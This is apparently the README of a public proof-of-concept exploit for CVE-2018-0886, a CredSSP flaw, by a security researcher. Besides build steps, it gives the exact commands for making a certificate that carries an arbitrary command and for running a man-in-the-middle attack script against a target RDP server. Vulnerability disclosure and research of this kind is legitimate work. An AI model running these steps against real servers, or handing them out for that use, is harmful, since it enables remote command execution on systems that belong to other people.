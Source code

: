 # credssp
A code demonstrating CVE-2018-0886

This is a code used for exploition this vulnerability, and it should be used for educational purposes only.

Written by Eyal Karni, Preempt 
ekarni@preempt.com 

# Build

## Instructions (Linux)
If you are using Ubuntu 14 , check the install file.. 
It was tested on Ubuntu 16.04. 

```
$ git clone https://github.com/preempt/rdpy.git rdpy
$ git clone https://github.com/preempt/credssp.git 
$ cd credssp/install
$ sh install.sh
$ cd ../../rdpy
$ sudo python setup.py install
```

# Running the exploit 


Export a certificate suitable for Server Authentication from any domain.


To generate a suitable certificate for the command to execute : 

```
$ python credssp/bin/gen_cmd.py -c ExportedCert -o exploitc.pem -k exploitk.pem CMD 
```

To run the attack script: 

```
$ python /usr/local/bin/rdpy-rpdcredsspmitm.py -k exploitk.pem -c exploitc.pem TargetServer
```
